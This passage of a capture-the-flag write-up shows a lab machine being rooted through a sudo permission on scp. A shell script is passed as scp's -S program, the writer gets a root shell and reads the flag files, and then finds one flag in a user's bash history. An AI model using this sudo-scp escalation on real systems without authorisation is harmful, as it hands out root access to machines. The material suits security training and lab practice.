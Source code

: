 Let's se if it works and
```
dennis@ip-10-10-251-164:~$ TF=$(mktemp)
dennis@ip-10-10-251-164:~$ echo 'sh 0<&2 1>&2' > $TF
dennis@ip-10-10-251-164:~$ chmod +x "$TF"
dennis@ip-10-10-251-164:~$ sudo /usr/bin/scp -S $TF x y:
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag5.txt
```
I'm root, so I could easily read the flag5.txt

## STEP 7 <sub>(question 7)</sub>

At this point I was only missing flag 3 (question 7) to complete the room. I ran several find commands but to no avail! So I decided to start all over again from where I started: in **_dennis's home_**.
Checking the contents of the _.bash_history_ I found flag 3.
```
root@ip-10-10-251-164:/dennis/home~$ ls -la
total 44
drwxr-xr-x 3 dennis dennis 4096 Sep  7 08:45 .
drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
-rw------- 1 dennis dennis 1052 Sep  7 08:47 .bash_history
-rw-r--r-- 1 dennis dennis  220 Feb 16  2019 .bash_logout
-rw-r--r-- 1 dennis dennis 3771 Feb 16  2019 .bashrc
drwx------ 2 dennis dennis 4096 Sep  7 08:45 .cache
-rw-rw-r-- 1 dennis dennis   93 Feb 16  2019 flag1.txt
-rw-r--r-- 1 dennis dennis  655 Feb 16  2019 .profile
-rw-rw-r-- 1 dennis dennis   32 Feb 16  2019 test.sh
-rw------- 1 dennis dennis 4350 Feb 16  2019 .viminfo
root@ip-10-10-251-164:/dennis/home~$  cat .bash_history
Flag3:<redacted>  <------- LOOK AT ME -------|
sudo -l
sudo scp
scp
sudo find
<redacted>
```

Mission accomplished!





